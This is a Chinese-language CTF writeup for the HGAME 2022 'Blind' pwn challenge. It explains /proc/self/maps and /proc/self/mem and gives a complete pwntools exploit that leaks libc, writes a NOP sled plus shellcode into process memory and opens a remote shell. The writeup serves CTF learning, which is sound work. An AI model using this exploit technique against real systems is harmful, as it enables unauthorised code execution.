 ```yaml
---
title: 「PWN」【HGAME 2022 Week2】 Pwn Writeup WP 复现
tags: ["CTF", "Pwn", "writeup", "wp"]
date: 2022-10-30
authors: [nova]
---
```


<!--truncate-->

# Blind

> 看题目简介应该是 BROP 的东西，也发现确实没有附件
>
> 完全没做过 BROP 的题，试试
>
> [CTF-WIKI_BROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#brop)

首先先查看一下程序会干什么

![image-20220217140202100](https://oss.nova.gal/img/image-20220217140202100.png)

可以看到程序首先给出了`write`的地址，但是由于原创我们不知道 libc 的版本，虽然也可以根据低 12 位来找到 libc 版本，但是我们选择`LibcSearcher`会更快一些

这样的话`libc_base`是很容易找到的

```python
sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))
```

接着它让我们可以打开一个文件

![image-20220217140449422](https://oss.nova.gal/img/image-20220217140449422.png)

介绍一下`/proc/`的一些相关内容

## /proc/

Linux 系统内核提供了一种通过/proc 文件系统，在程序运行时访问内核数据，改变内核设置的机制。/proc 是一种伪文件结构，也就是说是仅存在于内存中，不存在于外存中的。/proc 中一般比较重要的目录是 sys，net 和 scsi，sys 目录是可写的，可以通过它来访问和修改内核的参数。

/proc 中还有一些以 PID 命名（进程号）的进程目录，可以读取对应进程的信息。另外还有一个/self 目录，用于记录本进程的信息

### /proc/self/

这就相当于一个软链接，不同的 PID 访问这个目录进入的实质上是不同的/proc/$(PID)/

#### /proc/self/maps

这个文件用于记录当前进程的内存映射关系，类似于 gdb 下的 vmmap 指令，通过读取该文件可以获得内存代码段基地址

#### /proc/self/mem

该文件记录的是进程的内存信息，通过修改该文件相当于直接修改进程的内存。这个文件是可读可写的，但是如果直接读的话则会报错。

需要根据`/proc/self/maps`的映射信息来修改`offset`的`val`

如果我们将一段代码写到`.text`上，则该地址的代码就变成了`disasm(val)`

因此，我们很自然地想到把 shellcode 写上去，但由于没有源文件，我们也不能清楚究竟程序执行到了什么地方，也就没有办法控制程序准确跳转到`shellcode`开始的地方

## Shellcode Spray

此时如果我们把地址上下文都改成 nop，并在最后添加一段`shellcode`

这样，只要程序执行到了任意`nop`所在的位置，便都可以正常执行`shellcode`

因此，我们不妨修改`__libc_start_main`开始的一大段地址都为`nop`，这能保证程序一定被`nop`覆盖

exp:

```python
import string

from pwn import *
from pwnlib.util.iters import mbruteforce
from LibcSearcher import LibcSearcher

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = remote('chuj.top', 51812)

sh.recvuntil(b' == ')
hash_code = sh.recvuntil(b"\n", drop=True).decode('UTF-8')
charset = string.ascii_letters
# print(hash_code, type(hash_code))
proof = mbruteforce(lambda x: hashlib.sha256(x.encode()).hexdigest() ==
                              hash_code, charset, 4, method='fixed')

sh.sendlineafter(b"????> ", proof.encode())

sh.recvuntil(b"write: ")
write_addr = int(sh.recvuntil(b"\n", drop=True), 16)
success(">>> write_addr: {}".format(hex(write_addr)))

libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
success(">>> libc_base: {}".format(hex(libc_base)))

sh.sendlineafter(b">> ", b'/proc/self/mem\x00')

__libc_start_main_addr = libc_base + libc.dump('__libc_start_main')
success(">>> __libc_start_main: {}".format(hex(__libc_start_main_addr)))
sh.sendlineafter(b">> ", str(__libc_start_main_addr).encode())

payload = asm('nop') * 0x300 + asm(shellcraft.sh())
sh.sendlineafter(b">> ", payload)

sh.interactive()
```
